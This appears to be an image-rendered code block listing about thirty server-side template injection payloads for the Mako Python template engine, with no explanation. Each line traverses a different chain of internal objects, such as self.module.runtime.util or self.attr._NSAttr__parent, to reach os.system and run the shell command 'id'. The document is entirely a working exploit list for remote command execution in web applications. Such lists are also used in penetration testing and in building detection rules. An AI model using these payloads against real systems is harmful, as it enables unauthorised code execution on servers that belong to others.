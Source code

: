 ```python
${self.module.filters.compat.inspect.linecache.os.system("id")}

${self.module.runtime.compat.inspect.linecache.os.system("id")}

${self.template.module.runtime.exceptions.util.os.system("id")}

${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}

${self.context._with_template.module.cache.util.os.system("id")}

${self.module.runtime.exceptions.compat.inspect.os.system("id")}

${self.template.module.cache.util.compat.inspect.os.system("id")}

${self.context._with_template.module.runtime.util.os.system("id")}

${self.module.cache.util.compat.inspect.linecache.os.system("id")}

${self.template.module.runtime.util.compat.inspect.os.system("id")}

${self.module.runtime.util.compat.inspect.linecache.os.system("id")}

${self.module.runtime.exceptions.traceback.linecache.os.system("id")}

${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}

${self.template._mmarker.module.cache.compat.inspect.os.system("id")}

${self.template.module.cache.compat.inspect.linecache.os.system("id")}

${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}

${self.template._mmarker.module.filters.compat.inspect.os.system("id")}

${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}

${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}

${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}

${self.template.module.filters.compat.inspect.linecache.os.system("id")}

${self.template.module.runtime.compat.inspect.linecache.os.system("id")}

${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}

${self.context._with_template._mmarker.module.cache.util.os.system("id")}

${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}

${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}

${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}

${self.context._with_template.module.cache.compat.inspect.os.system("id")}

${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}

${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}

${self.context._with_template._mmarker.module.runtime.util.os.system("id")}

${self.context._with_template.module.filters.compat.inspect.os.system("id")}
```